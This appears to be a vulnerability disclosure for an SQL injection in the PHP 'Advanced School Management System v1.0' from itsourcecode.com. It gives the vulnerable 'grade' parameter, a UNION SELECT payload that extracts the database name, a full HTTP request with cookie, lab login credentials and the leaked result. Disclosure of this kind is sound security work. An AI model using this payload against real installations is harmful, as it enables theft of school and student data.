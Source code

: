 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

**Login account:** 

​		username：suarez081119@gmail.com

​		password：12345

**vendors:** https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

**Vulnerability url:** /school/view/timetable_insert_form.php?grade=

**Vulnerability location:** /school/view/timetable_insert_form.php

**[+] Payload:** /school/view/timetable_insert_form.php?grade=11%20union%20select%201%2cdatabase()%23

​	Leak place : grade

**Current database name:** std_db, length is 6

**Request package**：

```
GET /school/view/timetable_insert_form.php?grade=11%20union%20select%201%2cdatabase()%23 HTTP/1.1
Host: 10.12.171.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.12.171.4/school/view/timetable.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=cp26rmntdlbhle8qiofns95sv7
Connection: close
```

**SQL injection result**：line 52 database name is displayed.

![sql_injection3](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/advanced-school-management-system/images/sql_injection3.png)